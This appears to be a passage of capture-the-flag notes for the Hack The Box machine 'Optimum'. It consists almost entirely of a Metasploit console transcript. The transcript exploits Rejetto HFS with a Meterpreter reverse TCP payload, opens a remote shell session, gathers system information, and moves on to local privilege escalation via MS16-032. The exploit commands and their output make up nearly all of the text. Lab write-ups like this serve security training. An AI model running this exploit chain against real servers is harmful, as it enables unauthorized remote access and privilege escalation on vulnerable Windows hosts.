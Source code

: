 #Use a x86_64 reverse shell in a Windows exploit
msf5 exploit(windows/http/rejetto_hfs_exec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > set LPORT 51001
LPORT => 51001
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on x.x.x.x:51001 
[*] Using URL: http://x.x.x.x:51000/rWRkgYT0MR
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /rWRkgYT0MR
[*] Sending stage (206403 bytes) to x.x.x.x
[*] Meterpreter session 2 opened (x.x.x.x:51001 -> x.x.x.x:49189) at 2019-10-26 23:15:25 +0000

[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\HBBRQWfSLR.vbs' on the target

meterpreter > 
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 

meterpreter > background
[*] Backgrounding session 3...

msf5 exploit(windows/http/rejetto_hfs_exec) > use post/multi/recon/local_exploit_suggester

msf5 post(multi/recon/local_exploit_suggester) > set session 3
session => 3
msf5 post(multi/recon/local_exploit_suggester) > run

[*] x.x.x.x - Collecting local exploits for x64/windows...


#Manually locate exaploit and run it
msf5 post(multi/recon/local_exploit_suggester) > search ms16-032

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank    Check  Description
   -  ----                                                           ---------------  ----    -----  -----------
   0  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  2016-03-21       normal  Yes    MS16-032 Secondary Logon Handle Privilege Escalation

